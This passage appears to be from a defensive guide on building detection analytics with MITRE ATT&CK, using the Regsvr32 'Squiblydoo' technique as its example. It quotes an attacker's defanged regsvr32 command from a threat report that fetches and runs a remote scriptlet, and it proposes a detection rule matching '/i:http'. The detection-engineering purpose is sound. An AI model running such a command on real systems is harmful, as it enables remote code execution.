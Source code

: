 If your organization has already taken the first steps in collecting data and using existing analytics, now is a good time to expand coverage by creating your own. Completing this exercise for your enterprise also has the added benefit of familiarizing you with the thought process behind creating detections and analytics.

- Begin with looking at the technique description from ATT&CK and the threat intel reports linked in the examplesHere’s an example provided by MITRE in their [Getting Started with ATT&CK](https://www.mitre.org/sites/default/files/publications/mitre-getting-started-with-attack-october-2019.pdf) paper:Let’s pretend there were no good detections for Regsvr32. The ATT&CK page lists several different variants for how Regsvr32 is used. Rather than writing one analytic to cover all of them, focus in on just one aspect to avoid spinning your wheels. For example, you might want to detect the “Squiblydoo” variant that was discovered by Casey Smith at Red Canary.The reports linked from the examples show several instances of command lines where Regsvr32 was used, such as this example from the Cybereason analysis of Cobalt Kitty:The attackers downloaded COM scriplets using regsvr32.exe: regsvr32 /s/n/u/i:hxxp://support.chatconnecting(.)com:80/pic.png scrobj.dll EVIDENCE OF SQUIBLYDOO USED BY COBALT KITTY
- Design a test for your analytics using the techniques you’ve discovered. Testing can be done with either a commercial or open-source BAS solution.Continuing with the example above - I would look at the tests available for Regsvr32, including Squiblydoo.
- After executing the test, review the log data generated during the attack. Look for things that make the malicious event look distinctive. 18 Squiblydoo was chosen as an example because it’s a bit easier to find in log data. There isn’t a legitimate reason to have regsvr32.exe call out to the Internet. In this case, the analytic to look for would be times when the regsvr32.exe process is created and the command line includes “/i:http”.
